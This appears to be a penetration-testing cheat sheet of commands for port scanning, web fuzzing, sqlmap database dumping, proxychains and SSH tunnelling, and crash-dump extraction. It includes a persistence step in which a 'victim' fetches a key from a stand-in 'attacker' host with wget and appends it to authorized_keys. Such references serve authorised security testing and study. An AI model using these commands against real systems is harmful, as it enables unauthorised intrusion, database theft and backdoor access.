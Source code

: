 nmap
---
1. `nmap -sSV -Pn -p- -A <target>`
2. `nmap -sU -v <target> --min-rate=50`

Sub-domain Enum
---
1. `ffuf -w SecLists/Discovery/DNS/subdomains-top1million-20000.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/' -H 'HOST: FUZZ.website.com' -fs 2309`
3. `python3 sublist3r -d <domain>`

Sub-Directoy Enum
---
1. `ffuf -w SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://<SERVER_IP>:<PORT>/FUZZ" -recursion -recursion-depth 1 -e .php`
2. `gobuster dir -x php,txt -u 10.129.255.70 -w /usr/share/wordlists/dirb/common.txt`

Parameter Fuzzing
---
1. `ffuf -w SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287`
2. `ffuf -w SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://<SERVER_IP>:<PORT>/admin/admin.php -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx`

Page Type Fuzzing
---
1. `ffuf -w SecLists/Discovery/Web-Content/web-extensions.txt:FUZZ -u "http://<SERVER_IP>:<PORT>/indexFUZZ"`

SQLmap
---
- GET: `sqlmap -u "http://<SERVER_IP>:<PORT>/index.php?id=1"`
- POST: `sqlmap -u "http://<SERVER_IP>:<PORT>/index.php" --data "id=1"`
- Cookies: `sqlmap -u "http://<SERVER_IP>:<PORT>/index.php" --cookie="id=1*"`
- JSON:  `Copy Request Headers --> req.txt; add in the JSON with "" surrounding the variables; sqlmap -r req.txt`


1. `sqlmap -u "http://<SERVER_IP>:<PORT>/index.php" --data "id=1" --dbs`
2. `sqlmap -u "http://<SERVER_IP>:<PORT>/index.php" --data "id=1" -D <database> --tables`
3. `sqlmap -u "http://<SERVER_IP>:<PORT>/index.php" --data "id=1" -D <database> -T <table> --dump`
4. 3. `sqlmap -u "http://<SERVER_IP>:<PORT>/index.php" --data "id=1" -D <database> -T <table> -C <column> --dump`

`--flush-session` to start again

`--no-cast` to ensure correct data is gotten from blind sql

`--risk=3` and `--level=5` for more aggressive SQLi detection

`--prefix` and `--suffix` to predefine the wrappers

`--csrf-token` to define the variable name that is the token

`--union-cols=n` to manually specify number of union columns 

Proxy chains
---
```
edit /etc/proxychains4.conf 

examples:
http <ip> <port>
socks5 <victim service> <victim port> <user> <password>

$ proxychains ssh user@<ip>
```

SSH port forwarding
---

append your pub key to `/home/user/.ssh/authorized_keys`

On your attacker machine:

`ssh -L <local port>:<victim service>:<victim port> <victim>@<ip>`

OR using dynamic forwarding for attacks

`ssh -D <local port> <victim>@<ip>`


Adding your SSH to the victim
---

Append your public to the victim's ~/.ssh/authorized_keys

```
On attacker:
ssh-keygen

On victim:
wget http://attacker/id_rsa.pub
cat id_rsa.pub >> ~/.ssh/authorized_keys
```

Getting Crash Data
---

While program is running, kill it with

```
kill -BUS <pid>

Get the data from the crash log
---
apport-unpack /var/crash/_opt_count.1000.crash /tmp/crashed
strings /tmp/crashed/CoreDump
```

Other stuff
---
- Check SSL cert
- Check email domains
- Check 404 pages
- Try both `/tmp` and `/dev/shm` for file writes
